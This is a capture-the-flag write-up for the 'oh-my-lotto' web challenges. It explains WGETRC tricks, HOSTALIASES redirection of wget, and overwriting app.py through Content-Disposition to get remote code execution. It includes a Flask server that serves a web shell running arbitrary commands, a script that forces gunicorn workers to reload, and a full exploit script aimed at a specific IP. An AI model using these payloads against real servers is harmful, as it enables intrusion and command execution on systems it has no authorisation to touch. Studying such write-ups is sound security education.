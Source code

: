 # web-oh-my-lotto&revenge-EH

## Something

Due to poor consideration, this question may not bring a better experience to you. I'm really sorry. I want to explain something to you. After the first challenge was solved in unintented way, I thought about many ways for the revenge challenge, such as putting `wgetrc` in the blacklist, or locking the attachment with the flag of the first challenge. However, in order not to disclose the solution of the first challenge, I finally chose not to ban the `wgetrc`, but limited the way to obtain the flag, only by rce. But also due to some problems such as permission management, so that the use of `wgetrc` can also solve the revenge challenge. I'm sorry for that, but I did learn a lot from the unintented writeup. Next, I will restore my known unintented and intented solutions, hoping to bring you new knowledge. :)

## Unintented writeup

### oh-my-lotto

* Use `WGETRC` to set `http_proxy` proxy to your own server, download a file like forecast file, and you can get the flag.

* First, get the result of lotto, then upload the result as a forecast, and use `PATH` to let the new `lotto_result.txt` save to other path, so that the lotto result can be equal to the forecast, and get the flag.

### oh-my-lotto-revenge

* Use `WGETRC` to set `http_proxy` and `output_documen`, cover the local wget application, and then use wget to complete RCE.

* Use `WGETRC` to set `http_proxy` and `output_documen`, write SSTI in folder `templates/`, then use SSTI get RCE.

## Intented writeup

According to the attachment, you can set up a website running environment locally, according to the source code `app.py`, when the uploaded `forecast.txt` file content are same as `lotto_result.txt`, you can get the flag. But generate `lotto_result.txt` uses the `secrets` library, which uses a safe random number generation method. Theoretically, there is no risk of being predicted.

It is found that you can run and input an environment variable during lotto guessing, and the environment variable will be passed to `os.system('wget --content-disposition -N lotto')`, but the environment variable will pass through `safe_check` function check.

```
def safe_check(s):
    if 'LD' in s or 'HTTP' in s or 'BASH' in s or 'ENV' in s or 'PROXY' in s or 'PS' in s: 
        return False
    return True
```

Some common methods of using environment variables have been forbidden. By browsing the Linux environment variable document` http://www.scratchbox.org/documentation/general/tutorials/glibcenv.html `In the Network Settings, it is found that `HOSTALIASES` can set the hosts loading file of the shell. The hosts file can  can be uploaded by using the `/forecast` route, and the request sent by `wget --content-disposition -N lotto` to lotto can be forwarded to our own domain name, such as the following hosts file.

```
# hosts
lotto mydomain.com
```

At the same time, it is noted that the parameter `--content-disposition -N` is added to the wget request, indicating that the saved file name of the request will be determined by the file name specified by the service provider, and the original file can be overwritten. Then we can  provide a file download function in our own domain. Set the returned file name to `app.py`, refer to POC

```
from flask import Flask, request, make_response
import mimetypes

app = Flask(__name__)

@app.route("/")
def index():

    r = '''
from flask import Flask,request
import os


app = Flask(__name__)
@app.route("/test", methods=['GET'])
def test():
    a = request.args.get('a')
    a = os.popen(a)
    a = a.read()
    return str(a)

if __name__ == "__main__":
    app.run(debug=True,host='0.0.0.0', port=8080)
'''

    response = make_response(r)
    response.headers['Content-Type'] = 'text/plain'
    response.headers['Content-Disposition'] = 'attachment; filename=app.py'
    return response



if __name__ == "__main__":
    app.run(debug=True,host='0.0.0.0', port=8080)
```

At this time, you will find that the `app.py` has been covered, but it can't directly RCE, because the website uses gunicorn deployment, `app.py` will not be loaded in real time in case of change. However, gunicorn uses a `pre forked worker` mechanism. When a worker times out, gunicorn will restart the worker, and the POC of the worker timeout is as follows


```
# exploit.sh
timeout 50 nc ip 53000 &
timeout 50 nc ip 53000 &
timeout 50 nc ip 53000
```

Final worker reload `app.py`, you can complete RCE and read flag. Refer to the complete POC as follows:

```
# exp.py

import requests
import os
import time
import subprocess

s = requests.session()

base_url = 'http://124.223.208.221:53000/'
url_upload = base_url + 'forecast'
proxies = {
    'http': 'http://127.0.0.1:8080'
}

r = s.post(url=url_upload, proxies=proxies, files={"file":("hosts", open('hosts', 'rb'))})
print(r.text)

url_env = base_url + 'lotto'
data = {
    'lotto_key': 'HOSTALIASES',
    'lotto_value': '/app/guess/forecast.txt'
}
r = s.post(url=url_env, data=data)

subprocess.Popen('./exploit.sh', shell=True)
# os.system('./exploit.sh')
for i in range(1, 53):
    print(i)
    time.sleep(1)

while True:
    url_shell = base_url + 'test?a=env'
    print(url_shell)
    r = s.get(url_shell)
    print(r.text)
    if '*ctf' in r.text:
        print(r.text)
        break
```

